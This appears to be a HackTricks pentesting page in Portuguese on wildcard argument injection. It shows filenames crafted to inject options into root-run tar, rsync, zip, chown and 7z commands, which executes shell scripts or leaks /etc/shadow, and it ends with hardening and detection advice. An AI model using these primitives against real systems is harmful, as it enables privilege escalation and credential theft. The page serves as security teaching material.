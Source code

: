 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> A injeção de **argumento de wildcard** (também conhecida como *glob*) acontece quando um script privilegiado executa um binário Unix como `tar`, `chown`, `rsync`, `zip`, `7z`, … com um wildcard não entre aspas como `*`.
> Como o shell expande o wildcard **antes** de executar o binário, um atacante que pode criar arquivos no diretório de trabalho pode elaborar nomes de arquivos que começam com `-`, de modo que sejam interpretados como **opções em vez de dados**, efetivamente contrabandeando flags arbitrárias ou até mesmo comandos.
> Esta página coleta os primitivas mais úteis, pesquisas recentes e detecções modernas para 2023-2025.

## chown / chmod

Você pode **copiar o proprietário/grupo ou os bits de permissão de um arquivo arbitrário** abusando da flag `--reference`:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Quando o root executa algo como:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` é injetado, fazendo com que *todos* os arquivos correspondentes herdem a propriedade/permissões de `/root/secret``file`.

*PoC & ferramenta*: [`wildpwn`](https://github.com/localh0t/wildpwn) (ataque combinado).
Veja também o clássico artigo da DefenseCode para mais detalhes.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Execute comandos arbitrários abusando do recurso **checkpoint**:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Uma vez que o root executa, por exemplo, `tar -czf /root/backup.tgz *`, `shell.sh` é executado como root.

### bsdtar / macOS 14+

O `tar` padrão em versões recentes do macOS (baseado em `libarchive`) *não* implementa `--checkpoint`, mas você ainda pode alcançar a execução de código com a flag **--use-compress-program** que permite especificar um compressor externo.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Quando um script privilegiado executa `tar -cf backup.tar *`, `/bin/sh` será iniciado.

---

## rsync

`rsync` permite que você substitua o shell remoto ou até mesmo o binário remoto por meio de flags de linha de comando que começam com `-e` ou `--rsync-path`:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Se o root mais tarde arquivar o diretório com `rsync -az * backup:/srv/`, a flag injetada gera seu shell no lado remoto.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` mode).

---

## 7-Zip / 7z / 7za

Mesmo quando o script privilegiado *defensivamente* prefixa o wildcard com `--` (para parar a análise de opções), o formato 7-Zip suporta **arquivos de lista de arquivos** prefixando o nome do arquivo com `@`. Combinar isso com um symlink permite que você *exfiltre arquivos arbitrários*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Se o root executar algo como:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip tentará ler `root.txt` (→ `/etc/shadow`) como uma lista de arquivos e sairá, **imprimindo o conteúdo no stderr**.

---

## zip

`zip` suporta a flag `--unzip-command` que é passada *verbatim* para o shell do sistema quando o arquivo será testado:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Injecte a flag através de um nome de arquivo elaborado e aguarde o script de backup privilegiado chamar `zip -T` (testar arquivo) no arquivo resultante.

---

## Binaries adicionais vulneráveis à injeção de wildcard (lista rápida 2023-2025)

Os seguintes comandos foram abusados em CTFs modernos e em ambientes reais. O payload é sempre criado como um *nome de arquivo* dentro de um diretório gravável que será processado posteriormente com um wildcard:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrary `@file` | Ler conteúdo do arquivo |
| `flock` | `-c <cmd>` | Executar comando |
| `git`   | `-c core.sshCommand=<cmd>` | Execução de comando via git sobre SSH |
| `scp`   | `-S <cmd>` | Iniciar programa arbitrário em vez de ssh |

Essas primitivas são menos comuns do que os clássicos *tar/rsync/zip*, mas vale a pena verificar ao caçar.

---

## Detecção & Dureza

1. **Desabilitar globbing de shell** em scripts críticos: `set -f` (`set -o noglob`) impede a expansão de wildcard.
2. **Citar ou escapar** argumentos: `tar -czf "$dst" -- *` não é seguro — prefira `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Caminhos explícitos**: Use `/var/www/html/*.log` em vez de `*` para que atacantes não possam criar arquivos irmãos que começam com `-`.
4. **Menor privilégio**: Execute trabalhos de backup/manutenção como uma conta de serviço não privilegiada em vez de root sempre que possível.
5. **Monitoramento**: A regra pré-construída da Elastic *Potential Shell via Wildcard Injection* procura por `tar --checkpoint=*`, `rsync -e*`, ou `zip --unzip-command` imediatamente seguido por um processo filho de shell. A consulta EQL pode ser adaptada para outros EDRs.

---

## Referências

* Elastic Security – Regra Detectada de Potencial Shell via Injeção de Wildcard (última atualização 2025)
* Rutger Flohil – “macOS — Injeção de wildcard do Tar” (18 de dezembro de 2024)

{{#include ../../banners/hacktricks-training.md}}
